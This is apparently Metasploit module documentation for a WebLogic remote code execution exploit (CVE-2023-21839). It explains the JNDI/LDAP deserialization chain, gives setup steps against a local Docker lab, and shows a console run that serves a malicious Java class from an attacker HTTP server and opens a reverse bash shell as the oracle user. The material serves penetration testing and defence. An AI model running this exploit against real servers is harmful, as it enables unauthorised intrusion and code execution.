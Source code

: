 ## Vulnerable Application

### Description
Oracle Weblogic 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0 prior to the Jan 2023 security update are vulnerable to an unauthenticated
remote code execution vulnerability due to a post deserialization vulnerability. This occurs when an attacker serializes
a `ForeignOpaqueReference` class object, deserializes it on the target, and then post deserialization, calls the
object's `getReferent()` method, which will make use of the `ForeignOpaqueReference` class's `remoteJNDIName` variable,
which is under the attackers control, to do a remote loading of the JNDI address specified by `remoteJNDIName` via
the `lookup()` function.

This can in turn lead to a deserialization vulnerability whereby an attacker supplies the address of a HTTP server hosting
a malicious Java class file, which will then be loaded into the Oracle Weblogic process's memory and an attempt to
create a new instance of the attacker's class will be made. Attackers can utilize this to execute arbitrary Java
code during the instantiation of the object, thereby getting remote code execution as the `oracle` user.

This module exploits this vulnerability to trigger the JNDI connection to a LDAP server we control. The LDAP server will
then respond with a remote reference response that points to a HTTP server that we control, where the malicious Java
class file will be hosted. Oracle Weblogic will then make a HTTP request to retrieve the malicious Java class file,
at which point our HTTP server will serve up the malicious class file and Oracle Weblogic will instantiate
an instance of that class, granting us RCE as the `oracle` user.

This vulnerability was exploited in the wild as noted by KEV on May 1st 2023: https://www.fortiguard.com/outbreak-alert/oracle-weblogic-server-vulnerability

## Verification Steps

1. Make sure you have Docker and Docker Compose installed. If not follow https://docs.docker.com/engine/install.
2. `git clone git@github.com:vulnhub/vulnhub.git`
3. `cd weblogic/CVE-2023-21839/cmd`
4. `docker-compose up -d` and wait for the build to finish, then a few seconds for startup.
5. Do: `use exploit/multi/iiop/cve_2023_21839_weblogic_rce`
6. Do `set SRVPORT *some high port*` for LDAP server port number since we can't listen on the default port `389` without being `root`.
7. Do `set HTTP_SRVPORT *port*` if you want to change the HTTP server port.
8. Do `set RHOSTS 127.0.0.1` to target the local Docker instance.
9. Do `set SRVHOST *LDAP server IP address*` for LDAP server host. NOTE: Have to provide a routeable IP address, 0.0.0.0 won't work.
10. Do `set LHOST *IP address of Metasploit machine*`
11. Do: `exploit`
12. Verify that you get a shell on the target system as the `oracle` user.


## Options

### HTTP_SRVPORT
The port where the HTTP server will listen.

### SRVPORT
The port where the LDAP server will listen.

### SRVHOST
The IP address where where the LDAP server will be listening.

## Scenarios

### Oracle Weblogic 12.2.1.3 with Java 1.8.0_151-b12 - Docker Image
```
msf6 exploit(multi/iiop/cve_2023_21839_weblogic_rce) > show options

Module options (exploit/multi/iiop/cve_2023_21839_weblogic_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HTTP_SRVPORT  8089             yes       The HTTP server port
   LDIF_FILE                      no        Directory LDIF file path
   RHOSTS        127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         7001             yes       The target port (TCP)
   SRVHOST       192.168.204.149  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       4939             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.204.149  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/iiop/cve_2023_21839_weblogic_rce) > check
[+] 127.0.0.1:7001 - The target is vulnerable. Target is a Oracle WebServer 12.2.1.3 server, and is vulnerable!
msf6 exploit(multi/iiop/cve_2023_21839_weblogic_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.149:4444 
[*] 127.0.0.1:7001 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:7001 - The target is vulnerable. Target is a Oracle WebServer 12.2.1.3 server, and is vulnerable!
[*] 127.0.0.1:7001 - 1. Making T3 connection...
[+] 127.0.0.1:7001 - Made T3 connection!
[*] 127.0.0.1:7001 - 2. Sending first GIOP LocateRequest packet
[+] 127.0.0.1:7001 - Step 2 complete!
[*] 127.0.0.1:7001 - 3. Sending rebindAny request!
[+] 127.0.0.1:7001 - Step 3 complete!
[*] 127.0.0.1:7001 - 4. Sending second rebindAny request!
[+] 127.0.0.1:7001 - Step 4 complete!
[*] 127.0.0.1:7001 - 5. Sending second GIOP LocateRequest packet
[+] 127.0.0.1:7001 - Step 5 complete!
[*] 127.0.0.1:7001 - 6. Sending resolve packet #1 with wls_key_1
[+] 127.0.0.1:7001 - Step 6 complete!
[*] 127.0.0.1:7001 - Serving Java code on: http://192.168.204.149:8089/PayloadRuns.class
[*] 127.0.0.1:7001 - 7. Sending resolve packet #2 with wls_key_2
[+] 127.0.0.1:7001 - Step 7 complete!
[*] 127.0.0.1:7001 - Sleeping for 8 seconds to allow LDAP and HTTP traffic to go through.
[*] Command shell session 1 opened (192.168.204.149:4444 -> 172.18.0.2:46440) at 2023-05-17 16:48:56 -0500

id
uid=1000(oracle) gid=1000(oracle) groups=1000(oracle)
whoami
oracle
uname -a 
Linux 8e6d76ecdb0d 5.19.0-41-generic #42~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Tue Apr 18 17:40:00 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
pwd
/u01/oracle/user_projects/domains/base_domain
```
